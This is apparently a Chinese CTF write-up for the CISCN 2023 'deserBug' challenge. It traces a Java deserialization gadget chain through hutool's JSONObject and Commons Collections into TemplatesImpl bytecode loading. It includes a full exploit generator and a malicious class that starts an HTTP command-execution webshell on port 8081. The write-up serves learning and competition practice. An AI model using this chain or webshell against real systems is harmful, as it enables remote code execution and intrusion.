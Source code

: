 # CISCN 2023 deserBug

传递一个`bugstr`参数，后端会对其进行反序列化，若出现异常进行下面处理

```java
catch (Exception var8) {
    Myexpect myexpect = new Myexpect();
    myexpect.setTypeparam(new Class[]{String.class});
    myexpect.setTypearg(new String[]{var8.toString()});
    myexpect.setTargetclass(var8.getClass());
    try {
        result = myexpect.getAnyexcept().toString();
    } catch (Exception var7) {
        result = var7.toString();
    }
}
```

`Myexpect`类关键方法在`getAnyexcept`，调用了一个类的构造方法

```java
public Object getAnyexcept() throws Exception {
    Constructor con = this.targetclass.getConstructor(this.typeparam);
    return con.newInstance(this.typearg);
}
```

熟悉CC3链应该能马上反应过来，CC3中利用的类`TrAXFilter`的构造方法中调用了`TransformerImpl#newTransformer`，即`TemplatesImpl`链动态加载字节码

题目的环境是`Commons Collections 3.2.2`，该版本在一些危险的`Transformer`实现类的`readObject`前加上了`FunctorUtils#checkUnsafeSerialization`来检测反序列化是否安全。

![image-20230527193019264](../.gitbook/assets/image-20230527193019264.png)

若没有设置全局配置 `org.apache.commons.collections.enableUnsafeSerialization=true`，会抛出`UnsupportedOperationException`异常。

回到上面的处理流程，若直接打CC链，抛出异常被catch，执行`Myexpect#getAnyexcept`去实例化`UnsupportedOperationException`类，无法利用。而且这里又把异常类的构造器参数类型限制为`String.class`。一种思路是找到一个符合条件的可利用异常类，在反序列化过程中将其抛出。不好找遂放弃。

另一种思路是不走上面的异常处理（不进入`catch`），在反序列化的时候就去调用`Myexpect#getAnyexcept`。要调用一个类的`getter`方法，但题目又没有`fastjson`、`rome`之类的依赖。

结合放出的`hint`：`cn.hutool.json.JSONObject#put` -> `com.app.Myexpect#getAnyexcept`

不难想到，既然`fastjson`能调用`getter`，这个`hutool`工具类的`JSONObject`应该也可以

`cn.hutool.core.bean.copier.BeanToMapCopier#copy`负责将Bean的属性拷贝到Map中，通过反射调用Bean的`getter`方法。

调用链如下，最终执行`TrAXFilter`的构造方法，动态加载恶意字节码

![image-20230527195255453](../.gitbook/assets/image-20230527195255453.png)

`cn.hutool.json.JSONObject`是`Map`的子类，通过LazyMap去调用`JSONObject#put`，剩下的就是CC5的那段链子了。

> badAttributeValueExpException#readObject ->
>
> TiedMapEntry#toString ->
>
> TiedMapEntry#getValue ->
>
> LazyMap#get ->
>
> JSONObject#put

需要注意的是`LazyMap#get`

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

由于后面调用的getter的目标是这里的value，即`factory.transform(key)`要返回`Myexpect`

因此`factory`设置为`ConstantTransformer`（这个`Transformer`类没有重写`readObject`，不会进行反序列化安全检测），初始化时传入`Myexpect`。

题目环境貌似不能出网，利用hutool的`HttpUtil`工具类起个Web服务来写马

完整EXP：

```java
import cn.hutool.json.JSONObject;
import com.app.Myexpect;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;

public class Test {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static void main(String[] args) throws Exception {
        byte[] code = ClassPool.getDefault().get(a.class.getName()).toBytecode();
        TemplatesImpl obj = new TemplatesImpl();

        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "CC3");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Myexpect myexpect = new Myexpect();
        myexpect.setTargetclass(TrAXFilter.class);
        myexpect.setTypeparam(new Class[] { Templates.class });
        myexpect.setTypearg(new Object[] { obj });

        JSONObject entries = new JSONObject();

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(entries, new ConstantTransformer(myexpect));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");

        BadAttributeValueExpException bad = new BadAttributeValueExpException(null);
        setFieldValue(bad,"val",tiedMapEntry);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(bad);
        oos.close();

        byte[] byteArray = baos.toByteArray();
        String encodedString = Base64.getEncoder().encodeToString(byteArray);
        System.out.println(encodedString);
    }
}
```

`a.java`

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.BufferedReader;
import java.io.InputStreamReader;

public class a extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}
    public void transform(DOM document, DTMAxisIterator iterator,
                          SerializationHandler handler) throws TransletException {}
    static {
        cn.hutool.http.HttpUtil.createServer(8081).addAction("/", (request, response) -> {
            String cmd = request.getParam("cmd");
            String result = "";
            if (cmd == null) {
                response.write("welcome,plz give me cmd", cn.hutool.http.ContentType.TEXT_PLAIN.toString());
            }
            try {
                Process process = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
                String line;
                StringBuilder res = new StringBuilder();
                while ((line = reader.readLine()) != null) {
                    res.append(line);
                }
                result = res.toString();
            } catch (Exception var8) {
                result = "wrong";
            }
            response.write(result, cn.hutool.http.ContentType.TEXT_PLAIN.toString());
        }).start();
    }
}
```

![image-20230528161210712](../.gitbook/assets/image-20230528161210712.png)
